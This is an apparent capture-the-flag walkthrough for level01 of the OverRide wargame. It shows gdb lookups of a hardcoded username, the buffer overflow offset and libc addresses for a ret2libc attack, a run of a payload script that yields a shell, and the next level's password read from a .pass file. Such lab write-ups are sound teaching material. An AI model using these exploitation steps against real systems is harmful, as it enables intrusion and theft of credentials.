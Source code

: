 # level01 walkthrough

## the binary
``` shell
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```

## methodology
- ret2libc attack

The first step involves finding the correct username, which will allow us to log in. The username can be found in the `verify_user_name` function.
``` shell
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

The `verify_user_pass` function provides a suspected password, but since it doesn't work directly, we won't focus on it.
``` shell
(gdb) x/s 0x80486b0
0x80486b0:	 "admin"
```

Since the binary is vulnerable to a buffer overflow, we can exploit this to perform a ret2libc attack:
1. offset = 80 bytes ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
2. address of `system` = 0xf7e6aed0
3. address of `exit` = 0xf7e5eb70
4. address of `/bin/sh` = 0xf7f897ec

Our payload is generated using an attached script.

## flag
``` shell
level01@OverRide:~$ python /tmp/payload01.py > /tmp/flag1
level01@OverRide:~$ cat /tmp/flag1 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
